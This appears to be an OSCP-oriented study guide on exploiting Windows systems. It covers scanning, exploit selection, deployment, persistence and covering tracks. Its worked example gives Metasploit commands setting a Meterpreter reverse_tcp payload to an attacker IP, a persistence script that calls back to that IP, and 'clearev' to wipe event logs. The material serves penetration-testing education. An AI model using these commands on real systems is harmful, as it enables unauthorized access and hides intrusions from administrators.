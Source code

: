 # Windows Exploiting (Basic Guide - OSCP lvl)


# 👉 Overview

---

### 👀 What ?

> Windows Exploiting refers to the process of taking advantage of vulnerabilities or weaknesses in the Windows operating system, with the goal of gaining unauthorized access or control. It's a critical concept in penetration testing and ethical hacking, and is a fundamental topic in the Offensive Security Certified Professional (OSCP) certification.
> 

### 🧐 Why ?

> Understanding Windows exploiting is crucial for both defensive and offensive security professionals. For defenders, it helps identify and patch vulnerabilities, thus securing the network and data. For attackers, it provides opportunities for gaining unauthorized access or control. It's also an essential skill for the OSCP certification, a highly respected credential in the cybersecurity field.
> 

### ⛏️ How ?

> Exploiting Windows systems involves a systematic approach. First, identify potential vulnerabilities through techniques like scanning and enumeration. Next, choose an appropriate exploit for the vulnerability, which might involve creating a custom exploit or using one from databases like Metasploit. Then, deploy the exploit while considering factors like network architecture and security measures. Finally, establish persistence and clean up tracks to maintain access and avoid detection. This process requires a solid understanding of Windows architecture, networking, and programming.
> 

### ⏳ When ?

> The practice of exploiting Windows systems has been prevalent as long as these systems have existed. However, with the increasing focus on cybersecurity in the digital age, it has become a structured and essential practice in penetration testing and ethical hacking, especially for OSCP certification.
> 

# ⚙️ Technical Explanations

---

Exploiting a Windows system is a comprehensive process that comprises several technical steps. It begins with scanning the system for any vulnerabilities, such as unpatched software, misconfigurations, or weak credentials. Various tools, such as Nmap, Nessus, or Wireshark, are used for this purpose.

Once the vulnerabilities are identified, the next step is to choose an appropriate exploit. Exploits can either be pre-existing, sourced from databases like Metasploit, or custom-made. The process of creating a custom exploit involves an in-depth understanding of the vulnerability and writing code to exploit it. This could potentially involve techniques such as buffer overflows, injection attacks, or privilege escalation.

The exploit is then deployed by sending it to the target system and triggering it. This step requires a robust understanding of networking and potentially evading security measures like firewalls or intrusion detection systems.

Upon successful exploitation, the attacker establishes persistence to maintain access to the system. This involves understanding Windows internals, including the registry, services, and file system, and manipulating these components to ensure that the attacker's presence remains undetected and access to the system remains intact.

Finally, the attacker cleans up any tracks to avoid detection. This usually involves deleting logs, concealing changes made to the system, and any other actions that may alert system administrators about the intrusion.

This entire process is complex and requires a deep understanding of multiple areas, including Windows architecture, networking, programming, and cybersecurity principles. However, mastering these skills is fundamental for penetration testers and ethical hackers, and is a key component of certifications like the Offensive Security Certified Professional (OSCP).

The process of exploiting a Windows system can be illustrated with an example where an unpatched software vulnerability is exploited using a pre-existing exploit.

1. **Scanning the system**: The first step is to identify potential vulnerabilities. This can be done using a tool like Nmap. For instance, the command `nmap -sV -p- targetIP` scans all ports on the target system and identifies the services running on them.
2. **Choosing an exploit**: Once you've identified a vulnerability, such as an outdated version of a service running on the target system, you can search for an appropriate exploit in databases like Metasploit. For example, if the system is running an outdated FTP service, you might find a relevant exploit in Metasploit by searching `search ftp`.
3. **Deploying the exploit**: After choosing an exploit, it's time to deploy it. In Metasploit, this involves setting the exploit and payload, and configuring the target IP. It might look something like this:
    
    ```bash
    use exploit/windows/ftp/NAME_OF_EXPLOIT
    set RHOST targetIP
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST yourIP
    exploit
    
    ```
    
    This sends the exploit to the target system and, if successful, opens a Meterpreter session with the target.
    
4. **Establishing persistence**: Once you've gained access to the system, you want to maintain that access. This can be done using various Meterpreter scripts. For example, running `run persistence -X -i 10 -p 4444 -r yourIP` sets the system to attempt to connect back to you every 10 seconds.
5. **Cleaning up tracks**: Finally, you'd want to erase any evidence of your intrusion. This might involve deleting logs or other traces of the exploit. For example, `clearev` in a Meterpreter session clears the event logs on the target system.

Please note that this example is simplified and real-world scenarios often involve additional complexities and steps.

# 🖇️ Références

---